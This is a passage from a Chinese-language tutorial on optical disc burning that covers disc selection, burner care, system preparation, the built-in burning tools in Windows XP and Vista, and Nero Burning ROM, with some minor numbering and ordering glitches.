光雕的优点在于可为刻录光盘加以永久的、精确的、丝质般的标签。但目前光雕技术也有缺点：一是带光雕技术的DVD刻录机和专用刻录盘价格略高；二是速度较慢，以最精细的方式刻录光雕封面，需要20～30分钟。客观地说，现在带光雕技术的刻录机与不带光雕技术的刻录机差价已经很小了，因此不妨选择购买光雕刻录机，用它刻录一些馈赠亲友或自己珍藏的光盘还是不错的。

## 6.刻录盘的选购

刻录盘的重要性并不亚于刻录机。电脑市场上的DVD刻录盘种类繁多、质量也良莠不齐，有些杂牌产品质量很差，购买了这种刻录盘，数据的安全性就很难得到保障，下面就介绍一些刻录盘的选购技巧。

首先一定要购买DVD刻录机所支持规格的盘片。例如，你的刻录机不支持DVD-RAM，而你又买了DVD-RAM盘片，那就造成浪费了。我们最常用的刻录盘是DVD-R和DVD+R的，对一般用户来说，选择它们二者没有太大区别，一般的建议是：DVD-R更适合刻录DVD影碟、电子照片等多媒体资料；对于需要长时间数据保存的朋友来说，DVD+R是更好的选择。另外，如果刻录数据的容量较小，不一定非要选择DVD刻录盘，也可以考虑CD-R或CD-RW盘片，以节约资金。

其次要注意盘片的刻录速度。与刻录机一样，我们在市场中见到的盘片也会标有4X、8X、16X等字样，这就是盘片的刻录速度。一般来说，盘片的速度越高，价格也就越贵。消费者在选择DVD刻录机时已经把速度当作了主要指标，但在选择盘片时却很容易忽略这一点。殊不知，DVD刻录机与刻录盘的关系有如汽车和马路。你拥有了一台高速DVD刻录机只意味着你驾驶了一部跑车，如果使用的是低速盘片，就好比一部跑车在颠簸不平的乡间小道上行驶，是绝对开不快的。主流的DVD-R/+R盘片的刻录速度为8X和16X。现在主流的DVD刻录机一般的都支持18X甚至20X刻录，但从理论上来讲8X速度刻录是最安全、稳定的。如果你是要刻录一些如操作系统或是启动盘之类的建议用8X盘，这样会保证数据的稳定性；如果是刻一些照片或是影音之类的数据可以用高速18X盘以节约时间。

在市场上选择刻录盘时，还需要注意下面几条：

- ★刻录盘内圈涂料不均匀或者已经变色的不能要。此时的刻录盘可能已经发生了严重的老化。
- ★刻录盘内缘或者外缘不光滑的不能要。否则在刻录过程中可能因为刻录盘受力不均匀导致刻录盘出现裂痕，严重的甚至可能损坏刻录机。
- ★刻录盘背面图案印刷层不均匀的不能要。因为过厚的印刷层也可能导致刻录盘在高速的旋转中失去平衡，从而带来不必要的麻烦。
- ★刻录盘太轻太薄的不要。太轻太薄的刻录盘质量一定不过关，在高速旋转中也容易造成“飞盘”。

另外，产品的品牌和口碑也是产品质量的直接体现，选购刻录盘时，要尽量选择口碑好的名牌产品，如三菱、威宝、TDK、惠普、理光、铼德、Maxell、BenQ等。

最后，需要注意的是刻录盘的质保问题。在购买刻录盘之前，应该比较一下售后服务，当发现质量有问题的盘片时可以随时更换。

## 7.刻录机与刻录盘的保养和维护

DVD刻录机的核心配件是激光头，使用不当非常容易导致其老化和损坏。因此，对DVD刻录机的维护保养是十分重要的，维护保养的好坏，会直接影响其使用寿命的长短。

### （1）选择质量好的刻录盘

如果刻录盘片的质量欠佳，比如光盘上有划痕、坑点或者气泡等缺陷，那在光盘刻录时对光驱的纠错能力就要求非常高，激光管的功率就会变得很大，光驱频繁处于这种纠错状态下，当然不利于激光头的使用寿命，即使是勉强刻好的盘片也可能无法在一般的DVD光驱中读取。

### （2）保持刻录机的清洁

刻录机本身的清洁程度是尤为重要的。在进行刻录时，灰尘很容易被吸附到高速旋转的盘片上，很有可能在光盘上留下或长或短的划痕，从而影响到光盘的刻录质量，甚至使盘片报废。这时如果有灰尘落在激光头上，还有可能造成激光头的损坏。建议用户尽量保持电脑周边环境的清洁，尽量不要将弹出的光驱托盘长时间滞留在外，以免灰尘乘机进入机身内部。

### （3）保持良好的散热

DVD刻录机在刻录过程中，会产生相当多的热量，热量一定要及时从刻录机内部散发出来，才能保证它的工作稳定性。所以，在使用刻录机时，也应该注意一下散热问题，要尽量避免长时间连续刻录，还要避免让刻录机接近热源。

### (4)刻录间隔时间不要太短

刻录机在长时间工作后，都必须要让它得到足够的“休息”时间，以确保刻录机的激光头工作性能始终处于最理想状态。反之，刻录机如果不停地工作在高温环境下，激光头就特别容易发生老化现象，从而影响它的工作性能，最终影响刻录机的使用寿命。

### (5)尽量少用刻录机读盘

由于经济原因，大部分用户都使用一台刻录机进行读取和刻录两种操作方式。对于刻录机来说，读取的盘片的质量对其使用寿命的长短起着很关键的作用，在读取劣质或有划伤的盘片时，激光头会频繁启动纠错功能，反复读取，直到找到正确信号为止。因此在拥有了刻录机以后，建议尽量读取一些质量较好的盘片，如果有条件的话，最好能再配一款普通的CD-ROM或DVD-ROM光驱，专门用作读盘使用，让它们各司其职，以延长刻录机的寿命。

### (6)让刻录机保持在水平状态

对于刻录机来说，在读盘、写盘时保持水平状态是非常重要的，在安装刻录机时尤其要注意这一点，否则在使用时可能会出现一些莫名其妙的故障而导致刻录失败。除非使用小机箱时不得不将刻录机垂直安装，否则不建议将刻录机垂直安装。另外在刻录过程中，切勿移动机箱或刻录机，不然的话，轻则会造成刻录失败，重则会损坏刻录机。

除了以上几点外，平时在光盘不用时不要留在驱动器内；也不要把手将刻录机托盘推进仓门，因为这样对刻录机的进/出仓机械部分危害很大，会加速机械部件的磨损和老化。注意以上事项，就能保养好刻录机，使之长期工作在良好的状态下。

刻录盘的光盘上保存着我们的重要数据，一定要好好保护，下面来介绍保存刻录盘的注意事项。首先我们来看看刻录盘最怕什么。

- ★怕光：阳光对于盘片具有的破坏性已经是不争的事实。如果把盘片拿到太阳底下暴晒，则盘片会在几天内损坏。因此，刻录盘一定要避光保存。
- ★怕粘：常常有人会在刻录片上贴上标签或图标。当这些有黏性的贴纸脱落时，往往会把刻录盘（尤其是劣质盘片）上的资料面也一起撕下来。当金箔脱落的那一刻，所有资料都毁了。除此之外，贴上了标签，当光盘在刻录机中高速旋转时，也会产生重心不稳的情况，对于光盘的刻录和读取产生一定程度的影响。因此要注意不要给刻录盘贴标签。如果要做标记，可以使用油笔，最好使用专用的光盘笔。“光盘笔”笔尖柔软，不会划伤光盘表面，墨水无腐蚀性，不会渗透到光盘数据层。
- ★怕刮：刻录盘的两面都怕刮。有人以为上面是封面而已，可以随意刮、磨，其实在薄薄的印刷面底下就是资料储存用的染料层，一旦染料层受损，资料就全完了。下面的塑胶材质要是刮伤了，光盘机的激光头在读取资料时就会受影响，造成延迟，严重的话就根本读不出资料了。所以，光盘千万不要随意放置。另外，对盘片的擦拭不要过多，有灰尘需要擦拭时应从光盘中心向外做放射形擦拭，而非沿纹路旋转擦拭。拿重要的、需要长久保存的光盘时最好戴上手套，手拿光盘的标准姿势如图1所示。
- ★怕水：长期放在潮湿阴暗的环境中，刻录盘会生出一层霉菌，这也可能造成资料的丢失。所以存放时要注意避免潮湿。



#### 二、刻录前的系统优化和注意事项

为了达到最佳刻录效果，在刻录前应该对系统进行相关的优化操作。

### 1.开启DMA模式

刻录光盘前要确保打开硬盘和DVD刻录机的DMA模式。DMA即Direct Memory Access（直接内存存取），顾名思义，DMA功能就是让设备可以绕过处理器，直接由内存来读取资料。打开硬盘的DMA模式将大幅度地提高硬盘系统的功能，使我们能更快更好地进行视频处理和文件传输；打开刻录机的DMA选项，还可以保障刻录品质，并降低刻录时的CPU占用率。在Windows 2000/XP/Vista系统中，DMA模式是默认打开的，不过在某些情况下系统会将DMA模式关闭，这时就需要手动将其打开。打开“设备管理器”，在“IDE ATA/ATAPI控制器”下，将已检测到设备的IDE通道的“传送模式”都设定为“DMA（若可用）”并确定。如果你对操作不熟悉，为安全起见，可以将所有IDE通道的“传送模式”都设为“DMA（若可用）”，如图2。如果DMA模式无法打开，则可能是主板驱动没有正确安装，请仔细确认。



如果使用的是Windows 98系统，则硬盘和刻录机的DMA模式默认是关闭的，必须手动打开。方法是：打开“设备管理器”，找到硬盘和刻录机设备，双击打开属性窗口，在“设置”选项卡中选中“DMA”选项，确定并重启后设置生效，如图3。



### 2.关闭省电模式

刻录一张DVD光盘通常需要6~7分钟的时间，如果在刻录的过程中启用了省电功能，就有可能导致电脑突然失去响应而停止工作，从而损坏盘片。所以刻录前要关闭省电功能，方法是：在“控制面板”中找到“电源选项”图标，双击打开“电源管理”窗口，在该窗口中将电源使用方案设为“一直开着”，而在“关闭硬盘”及“系统待机”两个选项中均设为“从不”，如图4。接着重新启动计算机，进入到BIOS设置界面，在该界面中将Power Management中的Power Saving设置为NONE，最后保存BIOS设置，并退出重新启动计算机。



### 3.其他注意事项

为了保证刻录成功率、刻录质量和数据安全，还需要注意以下事项：

- （1）刻录前最好对硬盘进行磁盘检查与碎片整理，并用杀毒软件对系统进行全面扫描。
- （2）刻录光盘的过程中系统资源消耗很大，所以在刻录前最好关闭多余程序，在刻录过程中最好不要再运行其他程序，否则可能会造成数据传输过程不顺畅，从而产生很大噪音甚至造成刻录失败，严重的话会导致系统死机。
- （3）尽可能在配置高的电脑上刻录。实践证明，在高性能电脑上刻录的成功率要明显高于低性能电脑，如果电脑的配置太低，刻录过程中大量的数据会使电脑负荷不了。

## 二、用Windows XP自带工具刻录光盘

上面介绍了必备的刻录知识，下面来讲解具体的刻录方法。

### 1.用Windows XP自带工具刻录数据光盘

在刻录光盘时，用户都会想到专业的刻录软件，如Nero、Alcohol 120%等。但如果电脑上没有安装这些软件怎么办？其实在Windows XP中就集成有光盘刻录工具，刻录方法也很简单，简单来说只要将待刻录的文件复制或另存到光盘就行。但要注意的是，Windows XP自带刻录功能只能刻录CD光盘，不能刻录DVD光盘，这是因为Windows XP推出的时候 还没有成熟的DVD刻录技术。

所谓数据光盘，就是在电脑硬盘里的什么东西都可以刻进光盘里，一言以蔽之就是把光盘当作小硬盘来使用，读取光盘内容就像读取硬盘里的内容一样容易。下面介绍用XP自带工具刻录数据CD的操作：

- （1）将CD刻录盘放入刻录机中，双击打开刻录机所在盘符，将欲刻录的文件复制到刻录机所在盘符，或直接拖放到刻录机盘符中，这时该机的盘符上会出现要刻录文件的快捷方式，此时这些文件并没有真正刻录，只是复制到了临时文件夹中，这些文件可以任意添加或删除。如果要“全盘否定”，取消刻录，单击左侧“CD写入任务”下的“删除临时文件”即可，如图5。

提示：除了上面所述外，将要刻录的文件加入刻录列表还有两种方式：

- 鼠标右键单击选中待刻文件，选择“发送到”→选择刻录机盘符；
- 选中待刻文件并将其复制，右击“我的电脑”中的刻录机盘符，选择菜单中的“粘贴”命令。

- （2）单击左侧“CD写入任务”任务窗格中的“将这些文件写入CD”，启动“CD写入”向导，在“CD名称”框中为刻录光盘命名（默认情况下用当前时间命名），单击“下一步”按钮，即可轻松地将数据写入到刻录盘中。刻录时程序会显示当前的剩余时间，整个刻录时间取决于刻录速度和所刻文件总容量的大小。

刻录完成后，如果前面没有选中“文件写入结束后关闭此向导”，则程序会在刻录完一张光盘后询问“你想用这些文件创建另一张CD吗”，如果你想刻录多张相同内容的光盘，则可继续刻录，否则单击“完成”。

Windows XP是采用多区段方式刻录CD-R光盘的，在完成一次刻录任务后，并不会完全“终结”光盘，而会在结尾处留下一个“接口”，只要光盘上还有剩余空间，就能追加刻录资料。如果后面追加的文件与光盘中已有的某个文件同名，所追加的文件就会替换掉先前的文件。有了这个特点，虽然CD-R不支持重复擦写，我们也可以“偷梁换柱”地修改CD-R光盘上的文件，只要用同名的正确文件去“覆盖”它即可。

提示：用“多区段方式”刻录，是指每个刻录过程只刻录并且关闭一个区段，如果还有剩余空间则下次可以继续刻录下一个区段，这种方式多用于数据光盘的刻录，方便之处在于不必一次刻满整个光盘，缺点则是因为在区段与区段之间必须建立特殊的链接区，所以要浪费一定的光盘空间。

用Windows XP自带工具刻录数据CD虽然简便易行，但也有显著的缺点：为了保证刻录的稳定性和安全性，不管“数据源”在哪里，Windows XP在刻录光盘前会自动将要刻录的文件在硬盘上制作一个镜像。比如说你要刻录600MB资料到数据CD，程序就会先将这600MB的文件先制作成一个光盘镜像保存在硬盘上，然后在刻录光盘时一点一点地将镜像中的文件“搬到”刻录盘上。当要刻录的文件数极多且容量巨大时，整个刻录进程就会极其缓慢。

在默认情况下，Windows XP自带刻录程序会以刻录机所支持的最高速度进行刻录。如果刻录盘质量不过关，很容易导致“飞盘”（即刻录失败），所以最好在刻录前对刻录机进行一些必要的设置，具体方法是：在刻录机中放入CD-R光盘，打开“我的电脑”窗口，然后在刻录机对应的驱动器上单击鼠标右键，选择“属性”命令，打开驱动器的属性窗口。单击“录制”选项卡，在其中可以设置关于刻录的参数。为了保证刻盘的质量和成功率，可以根据刻录机的实际情况把写入速度适当调小一些，以“先锋112CH”为例，刻录CD-R的最高写入速度为40X，可以改为32X或16X，最后单击“确定”按钮即可，如图6。





### 2.用Windows XP自带工具刻录音频CD

相信每个人的电脑里面都存有大量的MP3文件。但是在电脑上听音乐总觉得不过瘾，为什么不能用家庭音响或汽车音响播放呢？其实，只要将MP3刻录为音乐CD（Audio CD）就可以了。当然也可以将喜欢听的评书或者相声刻录成光盘放在车上听。

注意：音乐CD是指Audio CD，即可以用直接用CD播放机播放的光盘。如果把mp3、wave等音乐文件直接通过复制的方式刻录到CD里就不是音乐CD，仍然是数据CD。

音乐CD上的歌曲必须是CDA格式，或者必须转换为这种格式。在Windows XP中，刻录音乐光盘是由系统自带的刻录功能结合Windows Media Player播放器来完成的，使用这种方法可以将WMA、MP3和WAV等三种格式的音乐文件直接转换并刻录成音乐CD光盘。具体操作方法如下：

- （1）在刻录机中放入一张空白CD-R盘。如果是可擦写的CD-RW盘，一定要先将上面的数据全部擦除，然后再使用，另外，不建议使用 CD-RW来制作音乐CD，因为有很多音响不能读取这种光盘。
- （2）将音乐文件复制或拖放到刻录机的盘符中，单击任务栏中“CD写入任务”下的“将这些文件写入CD”命令，启动“CD写入”向导。
- (3) 在“CD名称”文本框中为音乐CD命名。单击“下一步”按钮，在出现的“你想生成一张音乐CD吗”对话框中，选择“生成一张音乐CD”选项，单击“下一步”按钮即可调用Windows XP系统的Windows Media Player播放器程序（简称WMP，这里用的版本是最新的WMP 11，其他版本的操作方法类似）并进入“刻录”标签，如图7所示。



说明：如果选择“生成一张数据CD”，可以存储比音乐CD更多的曲目，按一首MP3歌曲5MB容量来算，700MB容量的数据CD能存储约140首歌曲，而一张音乐CD只能存储十来首歌曲。但数据CD在某些CD播放机中将无法播放，所以使用这种方式要谨慎。

- (4) 调出WMP后，待刻的音乐文件将出现在WMP 11右边窗格的“刻录列表”下。我们可以看到每首歌曲刻录成CD后所占用的时间长度，在上方的光盘图标下，还可以看到一个重要的信息——刻录盘支持的时间长度。我们知道，同样一首歌采用不同比特率压缩后，其文件大小是不一样的，但是在制作音乐CD时，不是根据音频文件体积的大小来确定一张CD-R光盘能刻录多少首歌，而是通过刻录软件获知所刻音频文件的播放时长及CD-R光盘支持的总时长来确定（一张700MB的CD-R光盘能装大约80分钟的CD音乐）。如果已选文件超过一张CD-R光盘的总时长，在“刻录列表”中就会出现“下一光盘”的目录，就是说需要多张CD-R光盘来完成刻录。如果用户发现“刻录列表”中有不想刻录的音乐，可在相应的文件名上单击鼠标右键，选择“从播放列表中删除”；如果要调整曲目顺序，可以在某首歌上单击右键，选择“上移”或“下移”。最后单击“开始刻录”按钮即可开始制作音乐CD。在开始刻录前，程序会先将选中的音频文件进行检查并转换，最后才会刻录到CD-R光盘中。
- (5) 用高速刻录音乐CD可能会导致声音出现明显的失真，所以刻录音乐CD最好用低速。刻录速度越慢，刻录的过程就越稳定，刻录出的音乐CD质量也越好。所以在刻录前，我们还可以进行进一步设定。单击WMP 11“刻录”标签下的小三角按钮，选择“更多选项”命令，打开“选项”窗口，如图8。建议将刻录速度设定为“慢速”。另外，默认情况下是选中了“在CD曲目间运用音量调节”选项的，建议不要修改此选项，这是因为各个曲目间的音量差异可能巨大，选中此选项后，在刻录过程中Windows Media Player将自动调节曲目间的音量。其余选项都与刻录音乐CD无关，不用去管。



当然，用户也可以直接打开WMP 11播放器来刻录音乐CD，方法是：单击切换到“刻录”标签，就是先通过WMP媒体库快速查找到自己喜欢的歌曲，然后再将歌曲拖放到右边的“刻录列表”中，设定刻录速度并单击“开始刻录”按钮即可，非常方便。

注意：音乐CD的刻录方式并不采用多区段刻录，所以无法在录制完成的CD上追加文件。哪怕你一张CD-R上只刻录了一首歌，以后也不能再添加音乐文件了。为了不浪费刻录盘，请大家在刻录音乐CD之前最好能“凑齐”一张光盘的歌曲。

#### 四、功能更强大的Vista刻录工具

在最新的Windows Vista操作系统中，系统的自带刻录功能变得更加强大，不仅增加了对DVD刻录的支持，而且操作更加方便！

将CD或DVD空白刻录盘片放入DVD刻录机中，系统会自动弹出“自动播放”对话框，如图9。用户可以根据需要单击“将文件刻录到光盘”或“刻录音频CD”。



这里我们选择刻录数据光盘。单击“将文件刻录到光盘”后，会打开“刻录光盘”对话框，输入光盘的名称（默认会使用当前日期作为光盘名称），然后单击“显示格式选项”按钮，展开高级选项，可以看见下面有“Live文件系统”和Mastered两个选项，如图10。



> 提示：如果空白刻录盘已经放入DVD刻录机中，双击刻录机对应的盘符也会打开“刻录光盘”对话框。

在Windows Vista中，将文件刻录到CD或DVD之前，必须要先对光盘进行“格式化”。Vista系统提供了一种全新的光盘格式，称为“Live文件系统”（或叫“实时文件系统”）。使用“Live文件系统”格式的光盘更便于使用，因为你可以立即复制文件到光盘而且复制的频率不受限制；使用这种光盘就类似于使用软盘或闪存盘。并且，使用这种复制功能对刻录光盘并没有特别要求，一次性刻录光盘和可擦写刻录光盘都可以。也就是说，我们可以很方便地对一次性的CD-R或DVD+/-R光盘进行数据追加或删除。

这时你也许会惊呼，这下可擦写的CD-RW和DVD+RW/-RW光盘岂不是没人要了？当然不是了，使用“Live文件系统”，可以随时向光盘中追加文件，也可以随时从刻录盘中删除已复制的文件，但是删除操作会留下空文件夹，更不能释放刻录盘的可用空间，在功能上还是远远无法替代可擦写光盘的，所以建议你不要多此一举地去删除已经复制到光盘的数据了。另一方面，“Live文件系统”光盘并非适用于所有电脑和设备，兼容性较差。

下面是使用“Live文件系统”和“Mastered”格式化的光盘之间的区别：

- （1）使用“Live文件系统”选项格式化的光盘：
    - ★使用起来就像 USB 闪存驱动器或软盘，意味着用户可以直接复制到光盘而不用刻录这些文件。
    - ★如果希望将光盘保留在刻录驱动器中，则在需要时即可复制文件，这样非常方便。
    - ★只与Windows XP以及更新版本的操作系统兼容，因此在较旧的操作系统上无法读取光盘。

Windows 兼容。

+   （2）使用“Mastered”选项格式化的光盘：
-   不能立即复制文件，意味着您需要选择要复制到光盘的整个文件集合，然后一次性刻录全部文件。
-   如果希望刻录大量文件的集合，如音乐 CD，则使用这种格式的光盘将非常方便。
-   与旧版本的电脑以及设备（例如，CD播放机和DVD播放机）兼容。

Windows Vista自带刻录程序默认使用“Live文件系统”，单击“下一步”按钮格式化CD或DVD光盘。

注意：如果需要制作高兼容性的光盘，以便在使用较低版本Windows的电脑或标准的CD播放机和DVD播放机中使用，建议选择“Mastered”格式来格式化光盘。

接下来Vista刻录程序要对刻录光盘进行格式化操作，使用默认的“Live文件系统”格式来格式化光盘需要几分钟时间。当格式化完成时，会打开一个空的光盘文件夹。然后将要刻录的文件拖到打开的光盘文件夹中，系统会自动将这些文件复制到光盘，刻录过程就这么简单！

如果使用“Mastered”格式刻录光盘，则操作类似于使用XP自带刻录功能：格式化光盘后，向刻录机盘符内添加文件，但此时添加的仅仅是临时文件，可以对临时文件进行添加或删除，最后单击工具栏上的“刻录到光盘”按钮才真正进行刻录。

前面我们讲解了用Windows XP自带刻录程序来制作音乐CD，那么使用Windows Vista自带的刻录程序来刻录音乐光盘又有何不同呢？Windows Vista自带刻录程序除了可以刻录音频CD、数据CD外，还新增了一种数据DVD格式。下面就介绍一下几种音乐光盘之间的区别，以便读者选择。

+   （1）音频CD。以标准音频格式刻录音乐CD。可以在大多数电脑、家庭和车载CD播放机中播放。可以将WMA、MP3或WAV格式的音乐文件刻录为音频CD。
+   （2）数据CD。可以存储大约700MB的音乐或视频文件。但请切记，有些CD播放机和电脑不能播放数据CD或其中的某些文件类型。
+   （3）数据DVD：可以存储更多的内容，单面单层的DVD光盘可以存储4.7GB的音乐、视频或数据文件；双面单层或单面双层的DVD光盘存储容量增大到9.4GB；双面双层的DVD光盘最高可达到18.8GB的存储容量。

在Windows Vista系统中，刻录功能被集成到了很多地方，例如：Windows照片库、Windows Media Player 11，甚至在“计算机”中，也可以很方便地进行刻录，方法是：选中要刻录的文件后，单击工具栏上的“刻录”按钮即可开始刻录，如图11。此时如果我们放入的是可擦写的光盘，还可以看到工具栏中的“擦除此光盘”按钮，使用起来非常方便，比Windows XP的自带刻录功能进步了不少。



尽管Windows Vista自带的刻录功能已经非常好用，上手也很简单，而且“Live文件系统”让刻录更加灵活，但遗憾的是仍未支持ISO等镜像文件刻录功能。

## 五、专业刻录软件

### Nero

Windows XP和Windows Vista的自带刻录程序虽然将刻录工作简化得近似于文件的复制或移动操作，但是其功能较少，有明显的不足，比如：自带的刻录不能有效调用刻录机的“防刻死”技术，这样当出现一点小意外时，刻录就因为欠载，造成刻录失败；不能刻录光盘镜像，也不能刻录自启动光盘、VCD光盘等特殊光盘。所以，要制作更为专业的光盘，就需要使用更为专业的刻录软件，其中，Nero就是常用专业刻录软件中的佼佼者。

### 1.Nero简介

Nero是德国Ahead公司出产的老牌刻录软件，是目前世界上使用率最高的刻录软件。Nero支持的刻录机和刻录种类繁多，除了支持数据光盘、音频光盘、视频光盘、自启动光盘、硬盘备份以及混合模式光盘刻录外，该软件还集成了音频转换、数据备份、音频编辑、虚拟光驱、光盘封面制作等功能。除此之外，Nero还具有独特的文件侦测功能，避免误操作造成的失误和光盘刻录失败。例如，用户想要制作一张音乐CD，却误将数据文件拖曳至编辑窗口中，此时，Nero会自动检测到此文件的资料格式不正确，因此就不会将这个档案加入音乐光盘片中。因此，要获得更高的刻录成功率，刻录各种特种光盘，要成为DVD刻录高手，学习Nero是必不可少的一个环节。

Nero软件套件由一系列组件构成，这些组件因不同的Nero版本而异。在这些组件中，负责刻录的是Nero Burning ROM和Nero Express，它们可以看作完全版和精简版的关系。Nero Burning ROM适用于高级用户，它的功能更强大，可更改的选项更丰富，但是操作比较繁琐，新手容易误操作或者遗漏。Nero Express更适合初学者，它是基于Nero Burning ROM开发出来的简化版，它提供了Nero绝大部分功能，具有更加友好的使用界面。为了使读者能够真正玩转刻录，成为刻录高手，本文以介绍Nero Burning ROM程序为主，顺带介绍Nero Express的使用方法，尽量做到全面和详尽。

Nero 7常用的版本有Nero 7 Premium和Nero 7 Essentials。Nero 7 Premium是完全版，本文是基于Nero 7 Premium撰写的，它同时具有Nero Burning ROM和Nero Express，在使用时可以互相切换。Nero 7 Essentials是简化版，少了一些功能（如Nero Vision等编辑媒体的功能），只有Nero Express。目前大多数DVD刻录机附送的Nero软件都是Nero 7 Essentials。虽然Nero软件的版本和组件繁多，但操作上完全可以做到触类旁通，举一反三，因此读者不用担心。

### 2.用Nero Burning ROM刻录数据光盘

Nero的安装很简单，一步一步安装就可以了。安装好Nero 7 Premium之后，会在桌面上自动生成一个Nero StartSmart（Nero精灵）快捷方式图标，双击此图标即可启动Nero StartSmart。

说明：从Nero 6起，Nero开始转向音视频从采集、编辑到刻录的整个流程解决方案，集成了强大的音视频编辑和制作功能，整个编辑制作模块相当多。因此，从Nero 6起，Nero一改以前版本发布中各个模块各自为战的状态。把所有的模块都使用一个集成工具整合起来，它就是Nero StartSmart。

Nero StartSmart集成了很多的刻录任务，就像是一个向导一样，可以引导初次接触光盘刻录的人完成各种格式光盘的刻录，是所有刻录任务的中心起始点。在Nero StartSmart中，可执行任务根据选定的模式进行显示。Nero StartSmart有两种任务模式：标准模式中仅显示最常用的任务；高级模式中显示所有任务。如果某个类别中有8个以上的任务，可以单击程序窗口右下角的小箭头显示其余任务。单击下方的模式转换按钮，可以在标准模式和高级模式间进行转换。

Nero StartSmart高级模式任务目录区的图标从左到右分别是：“收藏夹”、“数据”、“音频、照片和视频”、“备份”以及“其他”，如图12。将光标移至各个类别图标的上方，即可显示该类别中可以执行的任务，单击任务即可执行。你可以在常用的任务按钮上单击鼠标右键，选择“添加到收藏夹”命令将其放进“收藏夹”菜单中，以后使用起来就会方便很多。

单击鼠标右键，可以很方便地对其进行删除、重命名等操作。

> 技巧：为了增加文件的安全性，有时需要“隐藏”光盘上的文件。方法是：右击添加的文件，然后选择“属性”，在“属性”窗口中选中“隐藏”选项即可。



工作界面下边显示的刻度为光盘的容量，根据DVD刻录盘类型的不同，在刻度栏右下角选择为DVD5（4483MB容量）或DVD9（8152MB），则刻度栏显示容量会相应变化。绿色的进度条为当前的“刻录窗口”添加的文件的总体积。添加的文件总体积不能超过光盘的容量，否则将会导致刻录失败。目前使用得最多的单层单面DVD刻录盘的容量是4.7GB，实际可刻录容量在4483MB左右，所以在信息栏的“4483MB”处有一条黄色的标示线。那么，如何能够准确地知道刻录盘的容量呢？首先可通过刻录盘的性能标示来确定，一般刻录盘都标有“4.7GB”或“8.5GB”这样的字样，通过Nero也可以很方便地进行检测：单击工具栏上的“显示光盘信息”按钮，或按Ctrl+I快捷键，会弹出“光盘信息”窗口，在其中可查看光盘容量等信息，如图14。

在刻录机中放入刻录盘后，启动Nero StartSmart，首先要选择刻录光盘的种类是CD还是DVD，在Nero StartSmart最上方可以进行设定，如果不清楚就选“CD/DVD”。这里以DVD数据盘的刻录为例：在刻录机中放入的是DVD光盘，所以选择DVD，然后把光标移到“数据”图标（左起第2个）上，这时会在下方画面上会出现“制作数据DVD”项目，单击该项目，即可启动Nero Burning ROM刻录程序（如果安装的是Nero 7 Essentials，则此时启动的是Nero Express刻录程序），其主界面如图13所示。



在Nero Burning ROM的主界面中，除了标题栏、菜单栏、工具栏之外，还有两个类似资源管理器的主窗口便是工作区，其中，左边的窗口是刻录窗口，右边的窗口是“文件浏览器”。只要在右侧窗口中找到要刻录的文件，然后用鼠标将其拖放到左边的刻录窗口，便完成了刻录光盘的编辑工作。另外，也可以在“文件浏览器”中右击要刻录的文件或文件夹，选择右键菜单中的“复制”选项，然后将鼠标指针移到“刻录窗口”，右击该窗口的空白区域，选择右键菜单中的“粘贴”即可。当然，用户也可以从Windows资源管理器中直接将文件拖放到此窗口中。在左边的刻录窗口中，在光盘、文件夹或文件上单击鼠标右键，可以很方便地对其进行删除、重命名等操作。



如果电脑里安装了多台刻录机，在正式刻录前，程序需要选择用哪一台刻录机进行刻录。单击工具栏上的“选择刻录机”按钮，进行选择即可，如果只有一台刻录机则可以跳过此步骤。这里还可以看到刻录机的信息，例如，支持的光盘类型、写入速度、是否支持超刻、防烧坏保护等。这里可以看到一个叫做Image Recorder的设备名称，它是一个虚拟的镜像刻录机，选择它作为当前刻录机的话，可以将文件制作为光盘镜像。

编辑好刻录文件，选择了刻录机之后，即可开始正式刻录。单击工具栏上的“刻录”按钮，或者使用“刻录器”→“刻录编译”菜单命令，便可进入刻录界面并默认进入“刻录”选项卡，如图15。



> 其中各选项的解释如下。
★确定最大速度：在刻录前测试系统是否能跟得上刻录速度，如速度不够则会降低刻录速度，一定程度上避免了刻录失败的发生。
★模拟：在真正刻录以前模拟一下刻录的整个过程，但不包括激光对盘片的写入，也就是说可以测试出硬盘（光驱、软件、网络等）信息源的传输是否稳定达到指定刻录速度的需求，但是需要付出双倍的时间。
★结束光盘：就是所谓的封盘。刻录DVD+R/-R时，Nero在默认情况下不会采取多重区段的刻录方式，也就是不会在以后续刻光盘，此时“结束光盘”此项是选中且不可更改的。如果想下次能续刻光盘，应选择刻录“多区段光盘”且不要选中“结束光盘”，而且一定要在盘上留出足够的可用空间。刻录“多区段光盘”的相关知识下面会讲解。
提示：一般来说，除非要刻录非常重要的数据，都没有必要选择“确定最大速度”和“模拟”两个选项，直接选择“写入”即可。
★写入速度：设定写入的速度。高速写入不一定适合刻录所有的光盘。如果刻录普通的CD光盘，可以使用高速；如果刻录的是音乐CD、视频光盘或者PS2游戏光盘，就最好选择低速刻录；尤其是一些劣质盘达不到标称速度，也最好选择低速刻录。低速刻录不但成功率高，而且刻录质量要好一些。
★写入方式：选择“光盘一次刻录”，则刻录完成后无法再追加数据；选择“轨道一次刻录”，则可以多次刻录，直到光盘的空间耗尽为止。CD刻录盘可以选择两种写入方式之一，而DVD刻录盘只能使用“光盘一次刻录”。注意，在刻录音乐CD、VCD和超级VCD时，即使可以选择“轨道一次刻录”，也最好使用“光盘一次刻录”。如果要复制CD，也最好使用“光盘一次刻录”。
★刻录份数：可设定刻录光盘的数量。
★使用多个刻录机：如果安装有多个刻录机，可用它们来同时刻录光盘。
★刻录前检查是否带有病毒：在刻录前要刻录的数据是否带有病毒，如果电脑连接到Internet，Nero会自动连接到服务器并更新病毒数据库。
如果是用CD-R刻录数据CD，则“刻录”选项卡下还会多出一个“防烧坏保护”选项，如图16。刻录光盘的动作是连续性的，中间不能有任何中断。因此刻录时会先将资料读进刻录机的“缓冲区”中，刻录机再直接把缓冲区的资料加以刻录。但如果因为一些硬件或软件的因素，使得系统来不及传送资料给刻录机，就会造成刻录机内的缓冲区资料不足，这时刻录的动作就会中断，造成刻录失败，这就是所谓的“飞盘”。“防烧坏保护”能够有效解决这个问题，它的原理是由刻录机监视整个刻录的过程，一旦发现缓冲区资料不够了，就暂停刻录动作，等到资料重新进入缓冲区到达安全的存量，才继续开始刻录的动作。



